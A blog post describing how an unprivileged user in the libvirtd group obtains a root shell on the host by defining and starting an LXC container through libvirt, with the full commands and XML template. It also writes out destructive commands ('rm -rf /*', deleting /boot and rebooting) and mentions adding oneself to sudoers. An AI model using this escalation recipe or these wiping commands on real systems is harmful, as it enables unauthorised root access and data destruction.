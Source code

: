 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...Or how I got root access in less than 5 minutes)

I'm unsure if this is actually a vulnerability or just the intended behaviour of LXC/Docker. Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. **LIBVIRT_DEFAULT_URI=lxc:///**, such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
  user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}

And now run bash shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. 

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? But my user had no superuser access. The kernel of the host is 3.13.0-32-generic from Ubuntu 14.04.1.

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
